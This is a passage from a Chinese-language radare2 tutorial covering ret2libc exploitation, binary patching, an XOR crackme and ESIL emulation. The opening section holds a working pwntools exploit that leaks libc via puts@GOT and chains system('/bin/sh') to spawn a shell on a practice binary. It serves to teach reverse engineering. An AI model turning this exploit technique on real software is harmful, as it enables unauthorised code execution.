    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base  + offset_exit

    log.info("system: 0x%x" % system_addr)
    log.info("binsh: 0x%x" % binsh_addr)
    log.info("exit: 0x%x" % exit_addr)

if __name__ == "__main__":
    main()

```
### 计算物理地址

注意这部分的内容与执行机器相关，各有不同。

```sh
$ r2 -d megabeets_0x2
Process with PID 24124 started…
= attach 24124 24124
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2
asm.bits 32
— A C program is like a fast dance on a newly waxed dance floor by people carrying razors – Waldi Ravens

[0xf771ab30]> dcu entry0
Continue until 0x080483d0 using 1 bpsize
hit breakpoint at: 80483d0

[0x080483d0]> dmi libc puts~ puts$
vaddr=0xf758f710 paddr=0x00062710 ord=6490 fwd=NONE sz=474 bind=GLOBAL type=FUNC name=puts

[0x080483d0]> dmi libc system~ system$
vaddr=0xf7569060 paddr=0x0003c060 ord=6717 fwd=NONE sz=55 bind=WEAK type=FUNC name=system

[0x080483d0]> dmi libc exit~ exit$
vaddr=0xf755c180 paddr=0x0002f180 ord=5904 fwd=NONE sz=33 bind=LOCAL type=FUNC name=exit
```


说明：
- dmi 命令执行结果可能因r2版本不同而不同
- 首先，我们要找到 puts 相对于 libc 基址（base）的偏移量（offset）；
  - 再次使用 r2 调试运行到程序entrypoint。这一步是必要的，由于r2在运行调试是在libc加载之前，所以当我们执行到 entrypoint时，libc才能被加载完毕
- 使用`dmi` 命令，并将 libc 和想查看的函数名作为参数，这里可以使用 r2内部的grep即 `~` 来显示相关行。

重要：
- 所有的 paddr=0x000xxxxx 是相对于 libc base 的函数的offset；

下面查找一下程序中对 "/bin/sh" 的引用。为实现这一点，我们使用 r2 的查找功能。默认地，radare 通过在 dbg.map 中搜索。 dbg.map 是当前内存映像。我们希望在所有内存中查找，所以需要先配置：
```
[0x080483d0]> e search.in = dbg.maps

```

说明：
- 可以执行  `e search.in=?` 查看更多选项。使用图形化配置 radare，可以使用 `Ve`. 使用r2 搜索使用 `/` 命令：

```sh
|Usage: /[amx/] [arg]Search stuff (see ‘e??search’ for options)
| / foo\x00           search for string ‘foo\0’
| /j foo\x00          search for string ‘foo\0’ (json output)
| /! ff               search for first occurrence not matching
| /+ /bin/sh          construct the string with chunks
| /!x 00              inverse hexa search (find first byte != 0x00)
| //                  repeat last search
| /h[t] [hash] [len]  find block matching this hash. See /#?
| /a jmp eax          assemble opcode and search its bytes
| /A jmp              find analyzed instructions of this type (/A? for help)
| /b                  search backwards
| /B                  search recognized RBin headers
| /c jmp [esp]        search for asm code
| /C[ar]              search for crypto materials
| /d 101112           search for a deltified sequence of bytes
| /e /E.F/i           match regular expression
| /E esil-expr        offset matching given esil expressions %%= here
| /f file [off] [sz]  search contents of file with offset and size
| /i foo              search for string ‘foo’ ignoring case
| /m magicfile        search for matching magic file (use blocksize)
| /o                  show offset of previous instruction
| /p patternsize      search for pattern of given size
| /P patternsize      search similar blocks
| /r[e] sym.printf    analyze opcode reference an offset (/re for esil)
| /R [?] [grepopcode] search for matching ROP gadgets, semicolon-separated
| /v[1248] value      look for an `cfg.bigendian` 32bit value
| /V[1248] min max    look for an `cfg.bigendian` 32bit value in range
| /w foo              search for wide string ‘f\0o\0o\0’
| /wi foo             search for wide string ignoring case ‘f\0o\0o\0’
| /x ff..33           search for hex string ignoring some nibbles
| /x ff0033           search for hex string
| /x ff43 ffd0        search for hexpair with mask
| /z min max          search for strings of given size
```

这其中有大量可用选项。注意：
- `/R` 用于搜索 ROP gadgets
- 我们这次只搜索libc运行时中的`/bin/sh`
- 之后，我们计算 /bin/sh 的偏移量

```
[0x080483d0]> / /bin/sh
Searching 7 bytes from 0x08048000 to 0xffd50000: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0x8048000-0x8049000]
hits: 0
Searching 7 bytes in [0x8049000-0x804a000]
hits: 0 <..truncated..> Searching 7 bytes in [0xf77aa000-0xf77ab000]
hits: 0
Searching 7 bytes in [0xffd2f000-0xffd50000]
hits: 0
0xf7700768 hit1_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

r2 发现了内存中的 /bin/sh，位置在 0xf7700768. 接下来我们计算它相对于 base 的 offset。

```
[0x080483d0]> dmm~libc
0xf7599000 /usr/lib32/libc-2.25.so
[0x080483d0]> ?X 0xf7700768-0xf7599000
167768
```
说明：
- `?X` 表示计算后面表达式值，并显示为十六进制。
- 通过上面命令，我们发现了 base of libc 是 0x167768。我们将其填入 exp 程序中。

```py
...

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768  

...
```

### spawning a shell

第二阶段的exp是非常直接的，我们将再次使用140字节的padding，然后以 /bin/sh 的地址为参数调用 system，然后运行 exit。

- padding（140 bytes）
- system@libc
- exit@libc
- /bin/sh address

还记得上次返回的 entrypoint 地址么？ 它意味着 scanf 在等着我们再次输入。现在，我们需要执行一系列的链式调用并把它发送到程序。

下面是我们的exp代码：
```py
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
    
    # Calculate libc base
    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    exit_addr = libc_base  + offset_exit
    binsh_addr = libc_base + offset_str_bin_sh

    log.info("system is at: 0x%x" % system_addr)
    log.info("/bin/sh is at: 0x%x" % binsh_addr)
    log.info("exit is at: 0x%x" % exit_addr)

    # Build 2nd payload
    payload2  =  "A"*140
    ropchain2 =  p32(system_addr)
    ropchain2 += p32(exit_addr)
    # Optional: Fix disallowed character by scanf by using p32(binsh_addr+5)
    #           Then you'll execute system("sh")
    ropchain2 += p32(binsh_addr) 

    payload2 = payload2 + ropchain2
    p.sendline(payload2)

    log.success("Here comes the shell!")

    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()

```

完成编写后保存，运行代码如下：
```sh
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 24410
[*] puts is at: 0xf75db710
[*] libc base: 0xf75ce000
[*] system is at: 0xf760a060
[*] /bin/sh is at: 0xf7735768
[*] exit is at: 0xf75fd1b0
[+] Here comes the shell!
[*] Switching to interactive mode:
 
$ whoami
beet
$ echo EOF
EOF
```

### 小结

在本节，我们学习了r2 的一些核心概念和用法。有没有觉得radare2 比起 gdb-peda 要好用？


## 使用radare2 打patch

> 内容来源：
> 1. https://monosource.gitbooks.io/radare2-explorations/content/tut1/tut1_-_simple_patch.html


假设有一个二进制文件叫 patchme.S (汇编源程序)
```S
BITS 32
extern puts
section .data
	mystring db "Hello there! Can you patch me up to call my function?",0
	secret db "Thank you!",0
section .text
global main
callme:
	push ebp
	mov ebp, esp
	push secret
	call puts
	leave
	ret
main:
	push ebp
	mov ebp, esp
	push mystring
	call puts
	nop
	nop
	nop
	nop
	nop
	leave
	ret
```

编译文件：Makefile
```
all: patchme

clean: clean_patchme

patchme.o:
	nasm -f elf32 -o patchme.o patchme.S

patchme: patchme.o
	gcc -m32 -o patchme patchme.o

clean_patchme:
	rm -f patchme
	rm -f patchme.o
```

执行下列命令完成编译、运行：
```sh
$ cd <上述两个文件所在的目录>

$ make

$ ./patchme
Hello there! Can you patch me up to call my function?
```

可见上述程序问我们给它打 patch！那么我们先保存一个副本后再工作。

`$ cp patchme patchme_fix`

然后使用radare2 加载它：

```
$ r2 -Aw patchme_fix
[0x08048320]>
[0x08048320]> s main
[0x0804842f]>
```

说明：
- -A 表示打开后执行aaa，分析它的函数、数据、等等；
- -w 表示以写模式打开二进制文件
- `[0x08048320]` 是该二进制文件的入口 entrypoint 地址（此时未加载libc库等），这是可以配置的，例如可以直接到main函数。

下面我们呢查看一下反汇编的代码：
```sh
[0x0804842f]> pdf
╒ (fcn) main 20
│           ; DATA XREF from 0x08048337 (main)
│           ;-- main:
│           0x0804842f    55             push ebp
│           0x08048430    89e5           mov ebp, esp
│           0x08048432    6820a00408     push str.Hello_there__Can_you_patch_me_up_to_call_my_function_ ; "Hello there! Can you patch me up to call my function?" @ 0x804a020
│           0x08048437    e8b4feffff     call sym.imp.puts
│           0x0804843c    90             nop
│           0x0804843d    90             nop
│           0x0804843e    90             nop
│           0x0804843f    90             nop
│           0x08048440    90             nop
│           0x08048441    c9             leave
╘           0x08048442    c3             ret
```

这个challenge是要我们调用一个函数，并且给了一组待覆盖的 nop（线索）。

但是我们怎么找到要调用的函数？

提示：使用 r2 分析文件时，它会给任何相关的data/functions 添加 flags。你可以把flags 看作是用于r2命令和表达式的标签。我们可以通过查看 flags 来查询函数。

```sh
[0x0804842f]> f
0x0804a020 54 str.Hello_there__Can_you_patch_me_up_to_call_my_function_
0x0804a056 11 str.Thank_you_
0x0804842f 20 main
0x08048320 34 entry0
0x08049ffc 4 reloc.__gmon_start___252
0x0804a00c 4 reloc.puts_12
0x0804a010 4 reloc.__gmon_start___16
0x0804a014 4 reloc.__libc_start_main_20
0x08049f10 0 obj.__JCR_LIST__
0x08048360 43 sym.deregister_tm_clones
0x08048390 53 sym.register_tm_clones
0x080483d0 30 sym.__do_global_dtors_aux
0x0804a061 1 obj.completed.6903
...
```

更专业的列出函数的命令是 `afl`。我们除了main函数外，不易精确识别其他函数，但是我们看到了有一个字符串 “Thank you”, 位置在 0x0804a056。 另一个查找字符串的方法是 `iz` .

```
[0x0804842f]>f~Thank
0x0804a056 11 str.Thank_you_

[0x0804842f]> iz
vaddr=0x0804a020 paddr=0x00001020 ordinal=000 sz=54 len=53 section=.data type=ascii string=Hello there! Can you patch me up to call my function?
vaddr=0x0804a056 paddr=0x00001056 ordinal=001 sz=11 len=10 section=.data type=ascii string=Thank you!
```

下面看看这个字符串在哪里被引用：
```
[0x0804842f]> axt 0x0804a056
d 0x8048423 push str.Thank_you_
```

可知，这个字符串被 push 到堆栈中去了，让我们到这一地址去看看：

```sh
[0x0804842f]> axt 0x0804a056~[1]
0x8048423
[0x0804842f]> s `axt 0x0804a056~[1]`
[0x08048423]>
```

说明：
- `~` 表示 grep，可用于选择/过滤输出。
- `[1]` 表示选择第 2 列的结果；如果是`axt 0x0804a056~1`，其中的1表示第2行，如果只有1行则忽略数字过滤。

我们接着探索：
```
[0x08048423]> pdf
Cannot find function at 0x08048423

```
看起来，该地址不在 radare2 认识的函数里，这时我们使用可视化模式`Vp`查看：


我们可以使用箭头键或者 hjkl 在可视化模式下导航，类似于 vim。

可以看到，就在main函数之前，有一段类似函数的片段，我们可以看到类似函数的前言：


通常，r2不会为我们管理自动分析。这个函数没有被任何地方调用，r2也就节省计算不自动分析它。但是我们可以手动分析它。在可视化模式下这很容易。

注意：可视化模式下，有一套与命令行下不同的命令集，如果要执行命令行命令需要按`:`。

- 为了定义函数/数据/代码，在visual mode 下我们需要按 `d`开始。这会弹出一个菜单，询问我们希望如何定义当前块（block）。
- 按`f`，我们告诉radare在当前这个block中的数据作为一个function，并且我们想分析它。

radare 会将这个函数命名为 fcn.08048420, 这是因为这个函数起始地址为 0x08048420。 

- 先按`d` 打开命令提示，然后按`r`将其重命名为自己容易记的一个,例如callme。
- 然后，我们移动到main函数中的 nops 部分，在这里调用callme
- 在这里，按`A` ,准备键入可视化的汇编指令，例如`call fcn.callme`



可以看到5条nop指令被替代为 `call fcn.callme`, 然后按两侧回车键，按`q` 退出可视化模式,再键入 `q` + enter 退出 radare2.

让我们看一下执行 patch_fix 会发生什么？

```
./patchme_fix
Hello there! Can you patch me up to call my function?
Thank you!
```

最后，让我们看看patch与patch_fix的区别：

```
./patchme_fix
Hello there! Can you patch me up to call my function?
Thank you!
```


## 项目管理

当我们做逆向分析工程时，一项好的习惯是经常保存。因为很多工具没有undo能力。但是 radare2 有基本项目管理能力。

```
[0x00406260]> P?
|Usage: P[?osi] [file]Project management
| Pc [file]    show project script to console
| Pd [file]    delete project
| Pi [file]    show project information
| Pl           list all projects
| Pn[j]        show project notes (Pnj for json)
| Pn [base64]  set notes text
| Pn -         edit notes with cfg.editor
| Po [file]    open project
| Ps [file]    save project
| PS [file]    save script file
| NOTE:        See 'e file.project'
| NOTE:        project files are stored in ~/.config/radare2/projects
```


## 内存操作

假设我们有下面一个 ELF32 二进制文件 xor.c ：

```c
//xor.c
#include <stdio.h>
#include <string.h>
int check(char input[32], char buffer[32])
{
  int i = 0;
  int j = 42;
  for(i = 0; i < 32; i++)
    {
      input[i] = input[i] ^ j;
      j += 3;
    }
  /*
    // TODO: For debugging purposes only
  for(i = 0; i < 32; i++)
    {
      printf("%d ", input[i]);
    }
  printf("\n");
  for(i = 0; i < 32; i++)
    {
      printf("%d ", buffer[i]);
    }
    printf("\n");
  */
    return !strncmp(buffer, input, 32);
}

int main(int argc, char* argv[])
{
  /* TODO: Future idea: input[32], buffer[32] */
  int ret = 0;
  char input[33];
  char buffer[33] = {0x67, 0x62, 0x7e, 0x7c, 0x6d, 0x4d, 0x54, 0x0b, 0x36, 0x1a, 0x3f, 0x2a,
  0x7b, 0x2f, 0x24, 0x25, 0x69, 0x29, 0x14, 0x1a, 0x5b, 0x0c, 0x0d, 0x5a,
		     0x0b, 0x2a, 0x0a, 0x4a, 0x19, 0xe9, 0xb3, 0xda};
  printf("Enter the password: ");
  ret = scanf("%32s", input);

  if(!check(input, buffer))
    printf("Wrong!\n");
  else
    printf("Good job! :)\n");

  return 0;
}

```

编译文件 Makefile：
```makefile
all: xor

xor:
	gcc -m32 -O1 -o xor xor.c

clean:
	rm -f xor
```

执行下列代码后可以找到可执行文件 ./xor，然后运行它。

```
./xor
Enter the password: 1234
Wrong!
```

可见，这里需要我们输入一个正确的密码，那么它可能藏在二进制中。

我们用radare2 加载它：
`r2 -Ad xor`

结果中可以看到，可以使用`iz` 查询字符串，但没有在 .rodata 中找到想要的硬编码口令。

```
[0xf76e4d8b]> iz
vaddr=0x08048720 paddr=0x00000720 ordinal=000 sz=21 len=20 section=.rodata type=ascii string=Enter the password:
vaddr=0x08048735 paddr=0x00000735 ordinal=001 sz=5 len=4 section=.rodata type=ascii string=%32s
vaddr=0x0804873a paddr=0x0000073a ordinal=002 sz=7 len=6 section=.rodata type=ascii string=Wrong!
vaddr=0x08048741 paddr=0x00000741 ordinal=003 sz=13 len=12 section=.rodata type=ascii string=Good job! :)
```

下面我们看一下包含在二进制文件中的所有字符串，这时候要用 `izz` 命令：
```
[0xf76e4d8b]> izz
...
vaddr=0x0804850d paddr=0x0000050d ordinal=017 sz=6 len=5 section=.text type=ascii string=XZWh5
vaddr=0x08048574 paddr=0x00000574 ordinal=018 sz=5 len=4 section=.text type=ascii string=PTRh
vaddr=0x08048580 paddr=0x00000580 ordinal=019 sz=6 len=5 section=.text type=ascii string=\bQVhP
vaddr=0x080486e0 paddr=0x000006e0 ordinal=020 sz=5 len=4 section=.text type=ascii string=t$,U
vaddr=0x080486f7 paddr=0x000006f7 ordinal=021 sz=9 len=7 section=.text type=ascii string=\f[^_]Ív
...
```

可以看到在 .text 这里有些有趣的内容，例如：XZWh5, PTRh, \bQVhP,t$,U ...

我们调试运行到 main ，然后单步

```
[0xf77a2a90]> dcu main
Continue until 0x08048450
hit breakpoint at: 8048450
Debugging pid = 18388, tid = 1 now
[0x08048450]>
```

现在执行命令`Vp`,使用可视化观察：


从图中，可以看到很多行都是向堆栈移动数据。有可能 password 就在其中。

使用 hjkl 移动屏幕后，如果想快速回到初始进入Vp模式的地方，仅需要按 `.`.

阅读代码可以看到有一行在调用scanf 读取输入，图中显示存储数据的指针由 edi 存储。


后面很快会调用 sym.check , 用来验证输入和eax指向的字符串是否相同。

接下来执行命令`dcu sym.check` , 运行代码到 sym.check 调用处。这里代码将要求输入密码，我们随便输一个。

```
[0x08048500]> dcu sym.check
Continue until 0x08048660
Enter the password: 1234
hit breakpoint at: 8048660
[0x08048660]>
```

输入口令后，可以进入 sym.check, 我们查看一下代码：
```
[0x08048660]> pdf
╒ (fcn) sym.check 58
│           ; CALL XREF from 0x08048521 (sym.check)
│           ;-- eip:
│           0x08048660    83ec0c         sub esp, 0xc
│           0x08048663    b82a000000     mov eax, 0x2a                 ; '*' ; 42
│           0x08048668    8b4c2410       mov ecx, dword [esp + 0x10]   ; [0x10:4]=-1 ; 16
│           0x0804866c    89ca           mov edx, ecx
│           0x0804866e    6690           nop
│       ┌─> 0x08048670    3002           xor byte [edx], al
│       │   0x08048672    83c003         add eax, 3
│       │   0x08048675    83c201         add edx, 1
│       │   0x08048678    3d8a000000     cmp eax, 0x8a                 ; 138
│       └─< 0x0804867d    75f1           jne 0x8048670                
│           0x0804867f    83ec04         sub esp, 4
│           0x08048682    6a20           push 0x20                     ; 32
│           0x08048684    51             push ecx
│           0x08048685    ff742420       push dword [esp + 0x20]
│           0x08048689    e8b2fdffff     call sym.imp.strncmp
│           0x0804868e    85c0           test eax, eax
│           0x08048690    0f94c0         sete al
│           0x08048693    83c41c         add esp, 0x1c
│           0x08048696    0fb6c0         movzx eax, al
╘           0x08048699    c3             ret
```

这段代码比较容易理解：
- 我们的输入从 `[esp + 0x10]` 处拷贝到 ecx 和 edx。 edx 里存放的是输入password的地址。
- 然后是一个循环，每个输入字符串的字符会与al中值进行 xor 运算，第一次al中是0x2a（十进制 42），结果覆盖输入的原字符。 
- 循环中 al每次+3，直到eax 增加为 0x8a（十进制138），共循环32次。
- 循环结束时，edx指向password字符串的末尾；ecx 指向password字符串的起始地址。
- 之后可以看到在执行 sym.imp.strncmp 前将比较次数 0x20（十进制32）、异或后字符串（可看似hash处理）指针 ecx，`[esp+0x20]` 都压入了堆栈。
- 查看 strncmpy函数的声明 `extern int strncmp (const char *__s1, const char *__s2, size_t __n)`, 可知压入堆栈的分别是strncmp的第3，2，1参数。

回顾一下，在执行sym.check之前，eax里存放着系统准备比较的字符串，edi指向着我们输入的password字符串。可以使用下列命令查看内容：
```
[0x08048660]> ps @ eax
gb~|mMT\x0b6\x1a?*{/$%i)\x14\x1a[\x0c\x0dZ\x0b*
J\x19\xe9\xb3\xda
[0x08048660]> ps @ edi
1234
```

注意：radare2中的每个指令，默认情况下是相对于当前偏移量执行，如果你在一个不同的执行点执行命令，那么有两个选项：
- 1.seek （`s`） 到这个点，然后执行， 然后在seek back
- 2.使用 `@ symbol` 提供一个相对的偏移量，这与1相似，但比较简介。例如你想看main函数，而当前偏移不在main处，你可以运行`pdf @ main`。

下面，我们需要逆向一下check中的算法。

我们知道XOR运算时al中值为 42，45，48,...,138 ,我们可以逆向这个密码。

让我们使用 `woe` 生成这个模式：

```
[0x08048660]> woe 42 3 @ edi!32
from 42 to 255 step 3 size 1
[0x08048660]> ps @ edi!32
*-0369<?BEHKNQTWZ]`cfilorux{~\x81\x84\x87
[0x08048660]> p8 32 @ edi
2a2d303336393c3f4245484b4e5154575a5d606366696c6f7275787b7e818487
```

说明：
- `w` 表示写东西到内存；
- `o` 表示写操作时要执行一个操作；
- `e` 表示序列，在上面的例子中，这个序列开始于 42，每次步长为3。这就类似 sym.check 中 xor 运算的循环。
- 我们需要把这个序列写到某个地方（内存里）。由于 edi 指向的地方是一个 garbage ，我们可以写到 edi 指向的地方。
- `!` 感叹号（the excalmation mark） 是一个大小（size）指定符，在上面的命令中，表示最多写多少偏移量（up to offset to write). 否则写操作将从edi指针指向处连续写下去。我们不能让它覆盖有用的数据。
- 总的来看，上面的 `woe 42,3 @ edi!32` 表示从 edi 指向处到 edi+32 可以写入序列：42，45，48，...
- `p8 32 @ edi` , 表示按字节方式显示起始地址为相对偏移量为edi的内存值，共显示32个。0x2a就是十进制42。

第一步完成，现在我们有了自己的字符串序列。

接下来，我们需要将main函数中的序列与这个字符串进行 XOR 得到真正的 password序列。 不需要写其他脚本，我们仍然使用 r2.

研究一些`wo?` , 可以看到 `wox` 就是我们要找的。我们下面一步步构造，先试一下：
```
[0x08048660]> wox <my_pattern> @ eax!32
```

写成：
```
[0x08048660]> ps @ eax
gb~|mMT\x0b6\x1a?*{/$%i)\x14\x1a[\x0c\x0dZ\x0b*
J\x19\xe9\xb3\xda
[0x08048660]> wox `p8 32 @ edi` @ eax!32
[0x08048660]> ps @ eax
MONO[th4t_wa5~pr3tty=ea5y_r1gh7]
```
We got a string which doesn't look as random anymore. Let's test it.
```
./xor
Enter the password: MONO[th4t_wa5~pr3tty=ea5y_r1gh7]
Good job! :)
```
如果上面的`wox `p8 32 @ edi` @ eax!32`方法出现报错，可能是radare2 版本更新后的问题。

尝试用下列py脚本解决吧：
```py
s1 = '2a2d303336393c3f4245484b4e5154575a5d606366696c6f7275787b7e818487'
s2 = '67627e7c6d4d540b361a3f2a7b2f24256929141a5b0c0d5a0b2a0a4a19e9b3da'
s = ''
for i in range(0,64,2):
    t  = int(s1[i:i+2],16) ^ int(s2[i:i+2],16)
    s += chr(t)

print(s)
```

执行后得到：`MONO[th4t_wa5~pr3tty=ea5y_r1gh7]`

## ESIL

ESIL是一种基于可计算字符串的中间语言，具有类似波兰语的计算顺序；它以更一般、简化的形式表示各种特定于体系结构的指令。ESIL也可以被视为一个拥有自己的堆栈、寄存器和指令集的虚拟机。

ESIL可以是ARM、x86、MIPS和所有其他支持radare2的体系结构之间的共同基础。

在处理（比如）实时恶意软件时，拥有一个受控的环境至关重要。有时，建立这样的环境可能会带来自身的风险。有些体系结构非常模糊且无法访问，你必须通过研究操作码并试图理解程序的功能，艰难地对二进制文件进行逆向工程。解决这些问题（以及许多其他问题）的办法在于模仿（emulation）。由于ESIL是来自不同体系结构的各种指令的翻译，因此它可以用于模拟非本机或本机但危险的代码。

ESIL还可以通过检查不同指令对寄存器、堆栈和内存的影响来研究体系结构。

### 简单示例

ESIL是什么样子？类似下面代码：

```
mov ecx,ebx -> ebx,ecx,=
add ebx,edi -> edi,ebx,+=,$o,of,=,$s,sf,=,$z,zf,=,$c31,cf,=,$p,pf,=

```

看起来不是很容易理解，但是它很容易解析和处理。

### ESIL 命令

所有ESIL相关命令(radare2中)都有前缀 `ae`

```
[0x08048460]> ae?
|Usage: ae[idesr?] [arg]ESIL code emulation
| ae?                show this help
| ae??               show ESIL help
| aei                initialize ESIL VM state (aei- to deinitialize)
| aeim               initialize ESIL VM stack (aeim- remove)
| aeip               initialize ESIL program counter to curseek
| ae [expr]          evaluate ESIL expression
| aex [hex]          evaluate opcode expression
| ae[aA][f] [count]  analyse esil accesses (regs, mem..)
| aep [addr]         change esil PC to this address
| aef [addr]         emulate function
| aek [query]        perform sdb query on ESIL.info
| aek-               resets the ESIL.info sdb instance
| aec                continue until ^C
| aecs [sn]          continue until syscall number
| aecu [addr]        continue until address
| aecue [esil]       continue until esil expression match
| aetr[esil]         Convert an ESIL Expression to REIL
| aes                perform emulated debugger step
| aeso               step over
| aesu [addr]        step until given address
| aesue [esil]       step until esil expression match
| aer [..]           handle ESIL registers like 'ar' or 'dr' does
```

### ESIL in practice

假设我们有一个文件 esil.S ,内容如下：
```S
BITS 32
extern puts
extern scanf
extern printf
section .data
	timeval:
		tv_sec dd 0
		tv_usec dd 0
	prompt_scan db "Please enter magic number: ",0
	sstr db "%d",0
	prompt2 db "Checking...",0
	fstr db "%d",0xa,0
	inp dd 0
	message_wrong db "Access denied.",0
	message_right db "Access granted.",0
section .text
global main
check:
	push ebp
	mov ebp, esp
	mov eax, dword [ebp+8] ; get value off stack
	mov ebx, 0x1337
	mov ecx, ebx
	xor ebx, edx
	add ebx, edi
	and edi, esi
	or edi, ebx
	add ebx, 0x20
	add edi, esi
	mov ebx, ecx
	sub eax, ebx
	sub edi, 0x31
	sub ebx, edi
	xor edi, esi
	and esi, 0xff000000
	mov ebx, ecx
	leave
	ret
main:
	push ebp
	mov ebp, esp

	push prompt_scan
	call printf

	push inp
	push sstr
	call scanf

	;push dword [inp]
	;push fstr
	;call printf

	push prompt2
	call puts

	; Sleep
	mov dword [tv_sec], 5
	mov dword [tv_usec], 0
	mov eax, 162
	mov ebx, timeval
	mov ecx, 0
	int 0x80

	; check number
	push dword [inp]
	call check
	cmp eax, 0
	jnz bad
	push message_right
	call puts
	jmp end
bad:
	push message_wrong
	call puts
end:
	leave
	ret
```

以及编译配置文件 Makefile
```makefile
all: esil

clean: clean_esil

esil.o: esil.S
	nasm -f elf32 -o $@ $<

esil: esil.o
	gcc -m32 -o $@ $<

clean_esil:
	rm -f esil
	rm -f esil.o
```

建立一个目录t2，并建立上述两个文件(esil.S 和 Makefile)，运行下列命令：

```sh
cd t2
make
# 得到可执行文件 esil

r2 -A ./esil
```

然后在radare2中运行 `pdf main` 查看函数main代码，可以发现程序要求输入一个整数，然后sleep，然后调用check函数来处理接收到的数字。我们来看一下这个函数：

```S
[0x08048460]> pdf
            ;-- check:
(fcn) mystery 47
; arg int arg_8h @ ebp+0x8
; CALL XREF from 0x080484e0 (main)
0x08048460      55             push ebp
0x08048461      89e5           mov ebp, esp
0x08048463      8b4508         mov eax, dword [ebp + arg_8h] ; [0x8:4]=0
0x08048466      bb37130000     mov ebx, 0x1337
0x0804846b      89d9           mov ecx, ebx
0x0804846d      31d3           xor ebx, edx
0x0804846f      01fb           add ebx, edi
0x08048471      21f7           and edi, esi
0x08048473      09df           or edi, ebx
0x08048475      83c320         add ebx, 0x20
0x08048478      01f7           add edi, esi
0x0804847a      89cb           mov ebx, ecx
0x0804847c      29d8           sub eax, ebx
0x0804847e      83ef31         sub edi, 0x31
0x08048481      29fb           sub ebx, edi
0x08048483      31f7           xor edi, esi
0x08048485      81e6000000ff   and esi, 0xff000000
0x0804848b      89cb           mov ebx, ecx
0x0804848d      c9             leave
0x0804848e      c3             ret
```

可以可视化（`Vp`)后，点击d，然后选择r，重命名loc.check 为`msytery`，以便后续调用。这个函数看起来要用到很多寄存器，所以我们使用 ESIL 来获得一些有用的信息。

> 注意：你可以在可视化模式下通过按 `o` 切换指令的表达方式。 还可以通过`e asm.emu=true`启动emulation注释.

下面这些指令以`aea` 为前缀，将显示哪些寄存器可读、写或者根本不能在接下来指令、接下来的字节或整个函数中使用。

```
[0x08048460]> aeaf
A: esp ebp eax ebx ecx edx zf pf sf cf of edi esi eip
R: esp ebp ebx edx edi esi ecx eax
W: esp ebp eax ebx ecx zf pf sf cf of edi esi eip
N: edx
```

有趣的是，看起来 edx 寄存器在这个函数中不受影响。让我们seek 0x08048466，它在我们输入的数字被存到eax寄存器之后的位置。我们想填入eax某个值，然后从这个点开始 emulate 这个函数 。

注意：在下面的例子中，ESIL 将需要在内存中写，但是我们已经以只读方式打开这个二进制，所以为了绕过这一点，我们设置`e io.cache=true`.

现在，我们可以初始化 ESIL VM 状态，并设置 VM 程序计数器 （PC 或 EIP） 指向我们的seek（即0x08048466）。

```
[0x08048466]> aei
[0x08048466]> aeip
[0x08048466]> aer
oeax = 0x00000000
eax = 0x00000000
ebx = 0x00000000
ecx = 0x00000000
edx = 0x00000000
esi = 0x00000000
edi = 0x00000000
esp = 0xfffffd10
ebp = 0x00000000
eip = 0x08048466
eflags = 0x00000000
```

说明：
- `aei`, 初始化 ESIL 虚拟机
- `aeip`,目前 eip 等于我们的seek。

我们可以使用`aer <register>=`, 改变任何寄存器的值。这里我们设置 eax为我们输入的数值，例如0x1234.

```
[0x08048466]> aer eax=0x1234
[0x08048466]> aer
oeax = 0x00000000
eax = 0x00001234
ebx = 0x00000000
ecx = 0x00000000
edx = 0x00000000
esi = 0x00000000
edi = 0x00000000
esp = 0xfffffd10
ebp = 0x00000000
eip = 0x08048466
eflags = 0x00000000
```
这是ESIL非常好用的一点，尽管这是一个示例，你可以把它想象成更为复杂的例子，键入你希望的输入。

ESIL VM 可以看成是一个 debugger，你可以 step 或 continue，也可以 continue until 到一个给定的 ESIL 表达式为真时结束。

让我们看看直到 eax 大于初始值时的emulation：

```
[0x08048466]> "aecue eax,0x1234,>"
ESIL BREAK!
[0x08048466]> aer
oeax = 0x00000000
eax = 0xfffffefd
ebx = 0x00001337
ecx = 0x00001337
edx = 0x00000000
esi = 0x00000000
edi = 0x00003974
esp = 0x00000008
ebp = 0x464c457f
eip = 0x0804847e
eflags = 0x00000081
```

说明：
- 记着上面`aecue`表达式外的引号，这是确保 r2 能正确将它解析为一个单一命令，而不是一个命令序列。
- 可以看到，条件已经满足，让我们seek到VM停止运行处，并print该位置前的一条指令。

```
[0x08048466]> sr eip
[0x0804847e]> pd -1
│           0x0804847c      29d8           sub eax, ebx
```

可以看到，eax被执行了减法，注意 ebx 仍为 0x1337, 这意味着他是为了让eax 变为0的期望值。

我们通过重新设置 eip 到初始位置，然后设置eax=0x1337，来测试这一点。

重新测试后，eax被置为0，0x1337的十进制4919，就是这个魔术数字。

## Analysing crackme.03 with radare2

> https://github.com/ifding/radare2-tutorial/blob/master/analysing-crackme03-with-radare2.md

说明：
- 可以直接使用bin文件
- 也可以下载源文件（asm），使用下列命令生成可执行文件

```sh
# nasm -f bin crackme.03.asm
# chmod +x crackme.03
./crackme.03
Try to find the string of success and make me print it.

```

### 初步分析（preliminary analysis）

运行:

`# rabin2 -I crackme.03`

可知文件为efl 32bit，nx enabled 

